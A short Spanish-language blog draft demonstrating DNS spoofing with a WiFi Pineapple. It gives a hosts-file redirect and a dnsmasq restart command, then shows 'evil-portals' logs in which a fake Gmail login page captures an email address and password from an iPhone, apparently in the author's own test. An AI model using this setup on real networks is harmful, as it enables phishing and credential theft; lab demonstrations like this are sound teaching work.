 ```yaml
---
title: 'DNS Spoofing - POC'
date: '2023-01-03'
tags: ["DNS Spoofing", "POC"]
draft: true
authors: ['default']
summary: 'Hace poco me compré el WiFi Pineapple Mk7 de Hack5. Y voy a explicar como funciona los dns utilizand'
---
```


Hace poco me compré el WiFi Pineapple Mk7 de Hack5. Y voy a explicar como funciona los dns utilizando ilustraciones de *[Julia Evans (@b0rk)](https://wizardzines.com/)*

![](/static/images/uploads/wifi-pineapple-mkvii/life-of-a-dns-query.webp)

Update /etc/hosts

⚠️ey!
```
# File: /etc/hosts
# 
#  
192.168.0.10 doogle.es
```
Clear DNS cache


```
# killall dnsmasq && /etc/init.d/dnsmasq start
```
Vamos al movil

![](/static/images/uploads/wifi-pineapple-mkvii/iphone14\_spoof.webp)

DNS Spoofing gmail.google.esy ahora de nuevo


```
evil-portals  | 172.18.0.1 - - [04/Jan/2023:19:40:05 +0000] "GET /assets/css/custom.css HTTP/1.1" 200 1263 "http://gmail.google.es/" "Mozilla/5.0 (iPhone; CPU iPhone OS 16_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.2 Mobile/15E148 Safari/604.1"

evil-portals  | 172.18.0.1 - - [04/Jan/2023:19:40:53 +0000] "GET /controller.php?email=Iker%40prueba.es&password=TeNmUcHoCuIdAdO&hostname=&mac=&ip=172.18.0.1&target=http%3A%2F%2Fgmail.google.es%2F HTTP/1.1" 302 266 "http://gmail.google.es/" "Mozilla/5.0 (iPhone; CPU iPhone OS 16_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.2 Mobile/15E148 Safari/604.1"
```

